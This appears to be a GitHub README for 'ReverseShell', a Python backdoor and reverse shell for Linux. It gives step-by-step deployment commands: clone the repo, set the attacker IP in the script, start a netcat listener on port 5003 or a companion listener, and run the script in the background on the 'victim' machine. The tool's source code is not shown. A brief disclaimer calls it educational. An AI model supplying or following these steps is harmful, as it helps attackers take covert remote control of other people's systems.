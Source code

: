 # ReverseShell | Written In ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```

Or download the zip:
- https://github.com/Keyj33k/ReverseShell/archive/refs/heads/main.zip

## You will found a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```

- or use the silentHill listener:
```
python3 silentHill.py
```

- On the vivtim machine:
```
python3 reverseshell.py &
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is only for educational purposes. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.
# Thank you
![Twitter](https://img.shields.io/badge/twitter-%231DA1F2.svg?style=for-the-badge&logo=Twitter&logoColor=white) https://twitter.com/keyjeek


